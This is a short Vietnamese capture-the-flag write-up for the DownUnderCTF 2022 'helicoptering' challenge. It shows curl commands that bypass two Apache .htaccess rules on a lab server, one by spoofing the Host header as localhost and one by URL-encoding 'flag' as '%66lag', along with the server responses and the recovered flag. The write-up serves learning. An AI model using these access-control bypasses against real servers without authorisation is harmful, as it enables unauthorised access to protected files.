 # WRITE-UP  DownUnderCTF 2022 -  helicoptering 

Sau khi sữ dụng lệnh curl -I http://yourdomain.com ta nhận được:
```text
HTTP/1.1 403 Forbidden
Date: Tue, 15 Apr 2025 08:44:43 GMT
Server: Apache/2.4.54 (Debian)
Content-Type: text/html; charset=iso-8859-1
```

Bạn thấy một mã trạng thái 403 hoặc một số thông báo khác cho thấy bị từ chối quyền truy cập, có thể đó là vì quy tắc .htaccess chặn truy cập.

# Ở file one/.htaccess ta thấy rằng nếu Host không phải là localhost, yêu cầu sẽ bị từ chối ngay lập tức với mã trạng thái 403 Forbidden (thông qua dòng RewriteRule ".*" "-" [F])
```text
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]
```

Vì vậy thiết lập header Host trong yêu cầu HTTP thành localhost.
```text
curl -i -s -k -X $'GET' -H $'Host: localhost' $'http://192.168.93.128:30026/one/flag.txt'
```

```text
HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 09:02:00 GMT
Server: Apache/2.4.54 (Debian)
Last-Modified: Tue, 15 Apr 2025 06:34:43 GMT
ETag: "10-632cb5d2eec3c"
Accept-Ranges: bytes
Content-Length: 16
Content-Type: text/plain

DUCTF{thats_it_
```


# Ở file two/.htaccess ta thấy kiểm tra biến server THE_REQUEST, chứa toàn bộ dòng yêu cầu HTTP (ví dụ: GET /index.html HTTP/1.1). 
Điều quan trọng là quy tắc tìm kiếm sự xuất hiện của chuỗi flag trong dòng yêu cầu. Nếu tìm thấy flag, yêu cầu sẽ bị chặn (qua RewriteRule).
```text
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]
```

Vì vậy chúng ta cần đảm bảo rằng chuỗi flag không xuất hiện trong dòng yêu cầu. 
Nên mã hóa URL chuỗi flag, vì quy tắc .htaccess chỉ kiểm tra chuỗi flag chưa được mã hóa.
Chuỗi mã hóa URL của từ flag là %66lag
```text
curl http://192.168.93.128:30026/two/%66lag.txt
```
next_time_im_using_nginx}
